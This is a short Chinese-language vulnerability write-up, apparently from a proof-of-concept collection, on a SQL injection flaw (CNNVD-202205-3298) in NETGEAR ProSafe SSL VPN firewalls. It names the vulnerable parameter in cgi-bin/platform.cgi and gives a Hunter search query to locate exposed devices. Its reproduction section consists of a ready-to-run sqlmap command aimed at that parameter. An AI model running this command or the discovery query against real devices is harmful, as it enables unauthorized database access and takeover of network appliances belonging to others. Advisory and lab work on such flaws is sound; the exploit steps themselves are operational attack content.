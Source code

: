 # NETGEAR ProSafe SSL VPN SQL注入（CNNVD-202205-3298）

# 一、漏洞简介
NETGEAR FVS336G是美国网件（NETGEAR）公司的一款VPN（虚拟私人网络）防火墙路由器。NETGEAR ProSafe SSL VPN firmware FVS336Gv2 和FVS336Gv3版本存在安全漏洞，该漏洞源于cgi-bin/platform.cgi中的USERDBDomains.Domainname参数缺少过滤转义。攻击者可利用该漏洞进行SQL注入攻击，进而控制系统。

# 二、影响版本
+ NETGEAR ProSafe SSL VPN 

# 三、资产测绘
+ hunter`app.name=="NETGEAR ProSAFE"`
+ 特征

![1694579919965-2ed9bd62-7659-4f42-b63c-fbce7679b1ce.png](./img/3-oAw2G2HWdioD_W/1694579919965-2ed9bd62-7659-4f42-b63c-fbce7679b1ce-587289.png)

# 四、漏洞复现
**sqlmap **

```plain
sqlmap -u "https://xx.xx.xx.xx/scgi-bin/platform.cgi" --form  -p USERDBDomains.Domainname --batch
```

![1694588675748-169097da-b0a4-4bb1-ae8b-f68709d318ee.png](./img/3-oAw2G2HWdioD_W/1694588675748-169097da-b0a4-4bb1-ae8b-f68709d318ee-692978.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mvw70mskzp0yhtyf>